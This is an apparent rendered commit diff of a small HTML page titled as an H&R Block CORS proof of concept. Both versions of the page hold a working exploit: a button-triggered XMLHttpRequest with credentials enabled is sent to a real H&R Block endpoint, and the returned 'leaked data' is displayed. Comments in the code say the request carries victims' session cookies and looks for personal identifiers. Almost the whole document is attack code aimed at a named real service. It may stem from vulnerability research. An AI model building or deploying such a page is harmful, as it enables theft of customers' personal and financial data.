

Before and after one commit to akmalxpay-sudo/hrblock.com.test, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,48 +1,50 @@
 <!DOCTYPE html>
 <html>
 <head>
-    <title>Bulk CORS Scanner - H&R Block</title>
+    <title>CORS PoC Test</title>
     <style>
-        body { font-family: sans-serif; padding: 20px; background-color: #1a1a1a; color: #00ff00; }
-        .box { border: 1px solid #00ff00; padding: 15px; margin-bottom: 10px; background: #000; border-radius: 5px; }
-        .success { color: #00ff00; font-weight: bold; }
-        .failed { color: #ff0000; }
-        button { padding: 10px 20px; background: #00ff00; color: #000; border: none; font-weight: bold; cursor: pointer; }
+        body { background-color: #1a1a1a; color: white; font-family: sans-serif; text-align: center; padding: 50px; }
+        #data { background: black; color: #00ff00; padding: 20px; border: 2px solid #333; margin-top: 20px; min-height: 50px; text-align: left; white-space: pre-wrap; word-wrap: break-word; }
+        button { background: #00ff00; color: black; padding: 15px 30px; font-size: 18px; font-weight: bold; border: none; cursor: pointer; border-radius: 5px; }
+        button:active { background: #008800; }
     </style>
 </head>
 <body>
 
-    <h2>H&R Block - Bulk API Scanner (PoC)</h2>
-    <p>Testing for Sensitive Data Leakage across multiple endpoints...</p>
-    <button onclick="startScan()">Start Bulk Scan</button>
+    <h1>H&R Block Data Fetcher</h1>
+    <p>Target: mp.hrblock.com</p>
 
-    <div id="results"></div>
+    <button onclick="startExploit()">FETCH DATA NOW</button>
+
+    <div id="data">Waiting for action... (Click the button above)</div>
 
     <script>
-    function fetchSensitiveData() {
-        // Hum ab us endpoint ko target kar rahe hain jahan PII leakage ka risk hai
-        var target_url = "https://mp.hrblock.com/idl/hrb/idl";
+        function startExploit() {
+            var display = document.getElementById("data");
+            display.innerHTML = "Fetching... Please wait.";
+
             var xhr = new XMLHttpRequest();
+            var target = "https://mp.hrblock.com/idl/hrb/idl";
 
-        xhr.open("GET", target_url, true);
+            xhr.open("GET", target, true);
 
-        // YE SABSE IMPORTANT LINE HAI:
-        // Isse browser victim ki cookies (CIAM, UCID) server ko bhejta hai
+            // Credentials (cookies) capture enable
             xhr.withCredentials = true;
 
             xhr.onreadystatechange = function() {
-            if (xhr.readyState == 4 && xhr.status == 200) {
-                var response = JSON.parse(xhr.responseText);
-
-                // Hum response mein specifically CIAM aur UCID dhoondh rahe hain
-                document.getElementById("data").innerHTML = "Leaked Data: " + JSON.stringify(response, null, 2);
-
-                console.log("Full Leak:", response);
+                if (xhr.readyState == 4) {
+                    if (xhr.status == 200) {
+                        // Success: Data screen par dikhao
+                        display.innerHTML = "SUCCESS! Leaked Data:\n\n" + xhr.responseText;
+                        console.log("Data:", xhr.responseText);
+                    } else {
+                        // Failure: Error dikhao
+                        display.innerHTML = "FAILED! Status: " + xhr.status + "\nCheck browser console for CORS error.";
+                    }
                 }
             };
             xhr.send();
         }
     </script>
-
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
